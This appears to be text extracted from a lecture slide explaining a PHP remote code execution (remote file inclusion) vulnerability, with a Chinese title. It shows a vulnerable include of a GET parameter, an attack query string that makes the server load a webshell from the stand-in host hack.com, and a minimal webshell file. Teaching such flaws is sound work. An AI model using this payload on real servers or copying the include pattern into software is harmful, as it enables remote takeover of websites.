

# 远程代码执行漏洞
include($_GET[‘type’] . “_action.php”) ;

?type=http://hack.com/webshell.txt?action=

webshell.txt
<?php
	phpinfo();
	…其他你想执行的任意php代码
?>